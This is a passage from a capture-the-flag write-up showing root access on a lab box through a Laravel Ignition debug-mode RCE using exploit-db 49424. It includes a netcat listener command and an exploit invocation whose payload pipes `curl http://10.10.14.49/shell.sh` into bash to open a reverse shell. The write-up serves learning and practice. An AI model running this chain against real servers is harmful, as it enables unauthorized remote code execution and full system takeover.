 Sending a GET request to -> `http://localhost:9000/_ignition/execute-solution` -> reveals that debug mode is ON. That means this is exploitable.

![](/img/horizontall/Pasted%20image%2020220104132325.png)

We gonna download the RCE from exploit-db. (https://www.exploit-db.com/exploits/49424) and run it.

We will be using the `shell.sh` file we created to get the user shell and use it to get the root shell as well. Setting up reverse shell on port 443 as `sudo nc -nlvp 443`

Running the exploit:
```bash
$ python3 49424.py http://localhost:9000 /home/developer/myproject/storage/logs/laravel.log 'curl http://10.10.14.49/shell.sh | bash'
```

And we get a shell on our listener. We are root. Yay!

![](/img/horizontall/Pasted%20image%2020220104145749.png)

